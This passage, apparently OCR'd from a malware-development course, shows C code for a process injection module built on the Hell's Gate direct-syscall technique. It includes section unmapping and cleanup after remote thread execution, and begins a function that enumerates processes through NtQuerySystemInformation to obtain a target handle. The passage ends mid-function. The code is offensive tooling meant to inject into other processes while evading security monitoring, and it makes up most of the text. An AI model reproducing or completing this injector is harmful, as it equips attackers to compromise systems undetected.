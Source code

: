 ```c
	if ((STATUS = HellDescent(hThread, FALSE, NULL)) != 0) {
		printf("[!] NtWaitForSingleObject Failed With Error : 0x%0.8X \n", STATUS);
		return FALSE;
	}
	
	// Unmapping the local view
	HellsGate(g_Sys.NtUnmapViewOfSection.wSystemCall);
	if ((STATUS = HellDescent((HANDLE)-1, pLocalAddress)) != 0) {
		printf("[!] NtUnmapViewOfSection Failed With Error : 0x%0.8X \n", STATUS);
		return FALSE;
	}

    // Closing the section handle
	HellsGate(g_Sys.NtClose.wSystemCall);
	if ((STATUS = HellDescent(hSection)) != 0) {
		printf("[!] NtClose Failed With Error : 0x%0.8X \n", STATUS);
		return FALSE;
	}

	return TRUE;
}
```

#### Process Enumeration

In order to create a complete process injection module, the usage of the `NtQuerySystemInformation` syscall is required to fetch a target process handle, as outlined in the _Process Enumeration - NtQuerySystemInformation_ module.

The use of a new syscall will require the `VX_TABLE` structure to be updated to include one more element, `VX_TABLE_ENTRY NtQuerySystemInformation` for it to be initialized by the `InitializeSyscalls` function. Additionally, use the `Hasher` program to calculate a hash value for the "NtQuerySystemInformation" string.

```c
BOOL GetRemoteProcessHandle(IN LPCWSTR szProcName, IN DWORD* pdwPid, IN HANDLE* phProcess) {

	ULONG					    uReturnLen1 		= NULL,
						        uReturnLen2 		= NULL;
	PSYSTEM_PROCESS_INFORMATION  SystemProcInfo 	= NULL;
	PVOID					    pValueToFree 	= NULL;
	NTSTATUS				    STATUS 			= NULL;

	// This will fail with status = STATUS_INFO_LENGTH_MISMATCH, but that's ok, because we need to know how much to allocate (uReturnLen1)
	HellsGate(g_Sys.NtQuerySystemInformation.wSystemCall);
	HellDescent(SystemProcessInformation, NULL, NULL, &uReturnLen1);

	// Allocating enough buffer for the returned array of `SYSTEM_PROCESS_INFORMATION` struct
	SystemProcInfo = (PSYSTEM_PROCESS_INFORMATION)HeapAlloc(GetProcessHeap(), HEAP_ZERO_MEMORY, (SIZE_T)uReturnLen1);
	if (SystemProcInfo == NULL) {
		return FALSE;
	}

	// Since we will modify 'SystemProcInfo', we will save its intial value before the while loop to free it later
	pValueToFree = SystemProcInfo;

	// Calling NtQuerySystemInformation with the right arguments, the output will be saved to 'SystemProcInfo'
	HellsGate(g_Sys.NtQuerySystemInformation.wSystemCall);
	STATUS = HellDescent(SystemProcessInformation, SystemProcInfo, uReturnLen1, &uReturnLen2);
	if (STATUS != 0x0) {
		printf("[!] NtQuerySystemInformation Failed With Error : 0x%0.8X \n", STATUS);
```